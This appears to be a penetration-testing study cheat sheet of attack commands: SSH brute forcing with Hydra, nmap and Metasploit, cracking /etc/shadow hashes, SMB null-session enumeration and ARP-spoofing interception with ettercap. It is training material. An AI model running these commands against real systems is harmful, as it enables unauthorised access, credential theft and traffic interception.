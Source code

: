 #### Authentication Cracking
|Types|Bruteforce Attack | Dictionary Attack |
|---|---|---|

> Factors Affecting Online Password Cracking: Latency, Delay, Processing time,etc....

#### SSH Bruteforce With Nmap

```
nmap 192.168.143.67 -p 22 --script ssh-brute --script-args userdb=username.txt,passdb=password.txt

```

#### SSH Bruteforce With Hydra
```
hydra -l student -P /usr/share/wordlists/rockyou.txt ssh://192.194.185.3 -f

```

#### SSH Bruteforce With Metasploit
```
scanner/ssh/ssh_login module
```

#### Crack /etc/hashes With hahcat and John
```
/etc/login.defs >> Check Hashing Algorithm

hashcat -m 1800 admin.hash /root/Desktop/wordlists/1000000-password-seclists.txt --force

john /etc/shadow --wordlist=/root/Desktop/wordlists/1000000-password-seclists.txt

```

#### nULl Session Attack

> Allows user to connect to network without valid password in windows server.

```
smbclient //10.10.10.10/C$ -N

enum4linux -U 192.168.23.1 >> Enumerate Users

enum4linux -n 192.168.23.1 >> NBT stat

enum4linux -P 192.168.23.1 >> GIVES PASSWORD POLICY ON REMOTE MACHINE

enum4linux -S 192.168.23.1 >> LIST SHARES

enum4linux -s /usr/share/enum4linux/share-list.txt 192.168.23.1  >> Bruteforce Shares

enum4linux -A 192.168.23.1 >> FULL ENUM

sambrdump.py 192.168.23.1 

nmap -script=smb-enum-shares,smb-enum-users,smb-brute 192.168.23.1


```

> Note: Sometime we maynot see shares using enum4linux we can bruteforce the  users and try connecting to respective shares using -N flag.
#### Accessing Public Shares with smbclient

```
smbclient //192.123.28.3/demo
```

#### Check perm across Shares

```
smbmap -H host
```

#### Mitm Attack Using Ettercap
* Enumerate live hosts using nmap.

```
nmap -sn 192.168.3.0/24
```

#### Enable IP Forwarding in Linux

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

```
sudo ettercap -T -S -i eth0 -M arp:remote /10.0.0.1// /10.0.0.129//

-T  - text only
-S  - No ssl
-M  - Method
10.10.0.1  - Router
10.0.0.129 - Victim
```
* Start Wireshark with root perm
```
ip.addr == 10.0.0.129 && http

```

#### ARP Spoffing with arpspoof
```
echo 1 > /proc/sys/net/ipv4/ip_forward

![Screenshot at 2022-12-26 08-48-02](https://user-images.githubusercontent.com/85208639/209495031-02a909f6-3b0c-43e8-a92c-b2a297a4d018.png)

![Screenshot at 2022-12-26 08-49-05](https://user-images.githubusercontent.com/85208639/209495073-78db59ef-6526-4608-b3a6-6b4ad510fdb2.png)



